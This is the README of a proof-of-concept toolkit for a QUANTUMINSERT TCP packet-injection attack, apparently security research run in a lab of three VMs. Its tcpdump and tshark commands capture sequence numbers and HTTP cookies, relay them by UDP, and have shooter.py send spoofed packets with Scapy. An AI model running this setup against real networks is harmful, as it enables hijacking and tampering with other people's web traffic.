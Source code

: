 QI Tools
=========

Proof of concept tools to perform a `QUANTUMINSERT`. Our Lab setup consisted of the following VMs:

 * qi-shooter (VM that will run shooter.py)
 * qi-router (VM that will run monitor.py)
 * qi-target (VM that will be attacked)
 
Pcaps created with the help of these tools can be found here:

 * [https://github.com/fox-it/quantuminsert/pcaps](https://github.com/fox-it/quantuminsert/pcaps)

monitor.py
----------

This script is intended to leak the TCP sequence and ACK numbers to the `shooter.py`. It has a dependency on `tcpdump` or `tshark` as it receives the sequence and ack numbers from the output of these programs.
It's possible to implement packet capture in `monitor.py` itself, making it probably even faster to leak the required information.

The information is sent to the shooter using a single UDP packet. However, one could use other ways to do this.

#### Example usage for tcpdump

	stdbuf --output=0 |	tcpdump -nn -i eth0 "host jsonip.com and tcp[tcpflags]=(tcp-syn|tcp-ack)" | python monitor.py -s 10.0.0.2
	
`stdbuf` is needed as `tcpdump` will buffer it's output by default. The bpf filter is so output only the the SYN+ACK of `jsonip.com`, which will be outputted and parsed by `monitor.py`. The shooter is then notified on `10.0.0.2`.

#### Example usage for tshark

By using `tshark` one could specifically target a client, for example by identifying a client by it's unique Cookie headers.

Example command:

	stdbuf --output=0 tshark -ni eth0 -Tfields \
		-e tcp.seq -e tcp.ack \
		-e ip.src -e tcp.srcport -e ip.dst -e tcp.dstport \
		-e tcp.analysis.bytes_in_flight -e http.host -e 'http.cookie' \
		-o tcp.relative_sequence_numbers:0 -R http.request \
		'host jsonip.com and port 80' | python monitor.py -s 10.0.0.2 --tshark
		
This command will output the required fields when one makes a HTTP request to `jsonip.com`. The outputted cookie and host field could be used as selectors in the monitor script.

`-o tcp.relative_sequence_numbers:0` is need to get absolute sequence numbers.

shooter.py
----------
This script is responsible for receiving the sequence+ack data from `monitor.py` using UDP. It has a dependency on `Scapy` for crafting and sending the spoofed packet.

Example usage:

	python shooter.py -l 10.0.0.2 -p 12345
	
This will make the shooter script listen on `10.0.0.2` and on port `12345`.

